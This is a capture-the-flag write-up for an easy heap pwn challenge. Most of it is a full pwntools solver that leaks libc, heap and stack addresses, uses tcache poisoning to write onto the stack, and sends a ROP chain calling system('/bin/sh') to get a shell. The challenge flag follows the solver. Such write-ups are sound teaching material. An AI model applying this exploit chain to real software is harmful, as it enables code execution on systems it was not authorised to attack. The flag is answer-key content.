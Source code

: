 # Guide to heap : pwn

This problem was generated using ChatGPT. No modifications have been made to the original source code.  
Originally, as the title suggests, I intended this to be a beginner-friendly heap problem where simply following the instructions would allow you to obtain the flag.  
I apologise for the misleading title.  
However, as it is a template problem, I believe it remains within the scope of beginner-friendly content.

## Result
Solved: 28  
Points: 383

1st: syn9(sknb)  
2nd: 0xM4hm0ud(The Trio)  
3rd: 5unsetpowerln(TPC)

## Challenge
We will guide you to the door of the heap world!  
`nc chal1.fwectf.com 8010`

Difficulty: easy
Attachment: [guide_to_heap.zip](guide_to_heap.zip)

## writeup

Knowing the following will enable you to solve it:
* tcache, unsortedbin, etc.
* double free, UAF
* tcache poisoning
* libc leak
* ROP

Below is the executable code:
```python solver.py
from pwn import *

elf = context.binary = ELF('./chall')
libc = ELF('./libc.so.6')

def allocate_(index, size, data=None, zero=False):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(index).encode())
    p.sendlineafter(b': ', str(size).encode())
    if not zero:
        p.sendafter(b': ', data)
def delete_(index):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(index).encode())
def edit_(index, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b': ', str(index).encode())
    p.sendafter(b': ', data)
def show_(index):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b': ', str(index).encode())
def exit_():
    p.sendlineafter(b'> ', b'5')

p = remote('chal1.fwectf.com', 8010)

allocate_(0, 0x418, b'A'*0x418)
allocate_(1, 0x18, b'B'*0x18)
delete_(0)
delete_(1)

show_(0)
libc.address = u64(p.recvn(6).ljust(8, b'\0')) - 0x203b20
print('libc', hex(libc.address))

libc_argv = libc.address + 0x2046e0

show_(1)
heap = u64(p.recvn(3).ljust(8, b'\0')) << 12
print('heap', hex(heap))

allocate_(2, 0x18, b'A'*0x18)
allocate_(3, 0x18, b'B'*0x18)
delete_(2)
delete_(3)
edit_(3, p64((heap>>12)^libc_argv))
allocate_(4, 0x18, b'C'*0x18)
allocate_(5, 0x0, zero=True)
show_(5)
stack = u64(p.recvn(6).ljust(8, b'\0'))
print('stack', hex(stack))

target_stack = stack - 0x148

allocate_(6, 0x108, b'X'*0x108)
allocate_(7, 0x108, b'Y'*0x108)
delete_(6)
delete_(7)
edit_(7, p64(target_stack^(heap>>12)))
allocate_(0, 0x108, b'Z'*0x100)

system = libc.sym['system']
binsh  = next(libc.search(b'/bin/sh\0'))
pop_rdi = libc.address + 0x001ae710
ret = pop_rdi + 1

rop = flat(
    ret,
    pop_rdi,
    binsh,
    system,
)
payload  = p64(0xdeadbeef)
payload += rop
allocate_(1, 0x108, payload)

p.interactive()
```

## flag

`fwectf{kn0w1ng_7c4ch3}`
